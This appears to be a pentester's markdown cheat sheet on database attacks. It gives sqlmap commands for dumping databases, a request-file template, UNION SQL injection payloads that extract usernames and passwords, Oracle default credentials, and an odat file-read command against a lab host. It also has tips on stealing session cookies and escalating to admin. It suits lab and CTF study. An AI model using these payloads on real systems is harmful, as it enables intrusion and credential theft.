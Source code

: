# Databases (SQL / NoSQL)
## Tips
- If a database has a table of session one can try to steal cookies or other credentials from the table to authenticate as another user.     
- If one is in a database with write access and there are roles assigned to users, give the current user admin rights.

# SQL injection cheat sheets
- [https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/)
- [https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)


# sqlmap
## GET
Discover vulnerabilities in databases as well as dump info
```sh
sqlmap.py -u <URL> --batch
```

### POST
Can use log of a POST request, to search and enumerate a database
```sh
sqlmap -r <request_file> --level 5 --risk 3 --batch --string "Wrong identification" --dump
```

### Request file
Use burp as that will give you the full request, however it can be done via chrome network tab with a bit of editing.     
If the latter is chosen please follow

**BASE**
```
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en,en-US;q=0.9
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 24
Content-Type: application/x-www-form-urlencoded
Host: target.com
Origin: http://target.com
Referer: http://target.com/login.php
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
```

**EDITED**
```
POST /login.php HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en,en-US;q=0.9
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 24
Content-Type: application/x-www-form-urlencoded
Host: target.com
Origin: http://target.com
Referer: http://target.com/login.php
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36

username=name&password=password
```

### Arguments explained
- `-r`
    - To add the request log file

**OPTIONAL**
- `--string` 
    - To filter a given phrase in the response
- `--dump` 
    - To dump the db

#### References
- [https://0xdf.gitlab.io/2018/06/23/htb-falafel.html](https://0xdf.gitlab.io/2018/06/23/htb-falafel.html)

# SQL injection UNION attack

## Steps
```
"test' union select 'table',database(),'C'-- "
"test' union select 'table',username, password from db.table -- -"
```

## Articles to reproduce the attack
- [https://pentest-tools.com/blog/sql-injection-attacks](https://pentest-tools.com/blog/sql-injection-attacks)
- [https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635](https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635)
​​
​
## MSSQL union queries
Test the following query, it should dump all the data from the selected table.         
```sql
abcd' union select 1, concat(<data>,':',<data>) 3,4,5,6 from <table>;-- -
```      

*If the query needs to be edited, please follow the link in [the references](#references-1)* below.

### References
- [https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/)

# MySQL user defined functions
[​​https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf](​​https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf)

​
# Oracle / ODAT
Use [this](https://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-SLIDES.pdf) link as a reference for the steps described below    
[https://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-SLIDES.pdf](https://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-SLIDES.pdf)    

## Basic creds 
``` 
Username --> Scott 
Password --> tiger
```

*Steps*    
1. Use: `odat` and its `sidguesser` to bruteforce with a link provided
2. Spin up metasploit and use auxiliary(admin/oracle/sid_brute)
3. Use sqlplus to login with the creds or
    1. Read file with odat as such:    `odat ctxsys -s 10.10.10.14 -d XE -U SCOTT -P tiger --sysdba --getFile flag.txt`


# NoSQL
NoSQL injection knowledge base
A well curated list of tools and injection methods to use on NoSQL databases by ​[swisskyrepo](https://github.com/swisskyrepo)
[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)

​
# NoSQLMap
[https://github.com/codingo/NoSQLMap](https://github.com/codingo/NoSQLMap)
​​